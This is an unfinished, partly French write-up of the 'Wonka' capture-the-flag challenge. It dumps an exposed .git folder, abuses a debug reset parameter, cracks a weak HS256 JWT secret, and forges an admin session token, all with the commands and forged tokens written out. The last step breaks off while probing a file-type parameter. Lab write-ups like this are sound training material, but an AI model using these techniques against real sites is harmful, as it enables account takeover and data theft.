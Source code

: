 # Wonka

URL: https://challenge.akerva.com
URL: https://willywonka.shop

 Hint step 2 - the flag is on the backend 
 Hint step 2 - Did u ever cracked a jwt hs256 token 

## Step 1 - Git

https://willywonka.shop/.git/
perl rip-git.pl -v -u https://willywonka.shop/.git/ 

```
go get github.com/c-sto/gogitdumper
gogitdumper -u http://urlhere.com/.git/ -o yourdecideddir/.git/
git log
git checkout
```

```json
commit 7a1756aae221342ab09f9101358201bbfa70a702 (HEAD -> master)
Author: Nicolas Cosnard <nicolas@cosnard.io>
Date:   Thu Jun 13 15:31:50 2019 +0200

    Added debug mode with "debug=1" GET param

commit 8cda59381a6755d33425cb4ccddcc011a85649c6
Author: Nicolas Cosnard <nicolas@cosnard.io>
Date:   Thu Jun 13 15:30:25 2019 +0200

    Initial commit

cat COMMIT_EDITMSG 
Added debug mode with "debug=1" GET param

A wild flag appears !
16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009
```

## Step 2 - JWT

> Next flag is : A ticket 'deadbeef' was submitted. Who's the victim ?

Dans reset: https://willywonka.shop/reset?debug=1

en envoyant avec l'un des users listé sur la page d'accueil.

```xml
xXx_d4rkR0xx0r_xXx
aas
itm4n
meywa
n0wait
qsec
cybiere
```

Password reset instructions for WillyWonka Shop
http://willywonka.shop/reset/eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJxc2VjIiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNDM0MTU5LCJleHAiOjE1NjI0MzQ3NTl9.n7HWZ1LKs_S1lJjNRk0VCoIma4uKjkPBrtP6kSvQhrE

JWT contains :

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "sub": "qsec",
  "aud": "frontend.willywonka.shop",
  "iat": 1562434159,
  "exp": 1562434759
}
```

et redirige sur https://willywonka.shop/profile?filetype=image%2Fpng


```powershell
https://backend.willywonka.shop/login
JWT: eyJ1c2VybmFtZSI6Iml0bTRuIn0.XSDI_g._6RclazYRpwomCn8u1EmQmtIudg
s3cr3t
-> JWT admin
backend-session=eyJ1c2VybmFtZSI6ImFkbWluIiwiYWxnIjoiSFMyNTYifQ.e30.0fRod3exHL6E2aBJqKUwiNz-G0wilvJmATxpOXWvqI4


https://backend.willywonka.shop/reset/eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJpdG00biIsImF1ZCI6ImJhY2tlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNDI1NjAwLCJleHAiOjE1NjQ0MjY2MDB9.2CztTMndf96UChOTMIAD7Xy-q30S7ZKifJQtXvRb5BI

```json
{
  "username": "admin",
  "alg": "HS256"
}
```

On demande `deadbeef`

```
Victim	Cost
7ED33F3EB8E49C5E4BE6B8E2AE270E4018582B27E030D32DE4111DB585EE0318	XBT 1.0
Ticket
1
```


## Step 3 

> Next flag is : There's a flag.txt at the server root

```powershell
https://willywonka.shop/profile?filetype=image%2Fpng
https://willywonka.shop/profile?filetype=text%2Fxml


https://backend.willywonka.shop/reset/eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJpdG00biIsImF1ZCI6ImJhY2tlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNDI1NjAwLCJleHAiOjE1NjQ0MjY2MDB9.2CztTMndf96UChOTMIAD7Xy-q30S7ZKifJQtXvRb5BI

https://backend.willywonka.shop/ticket/fb88e246

AutoResize
Error : image mime type doesn't match provided content type. Please re-check upload



```
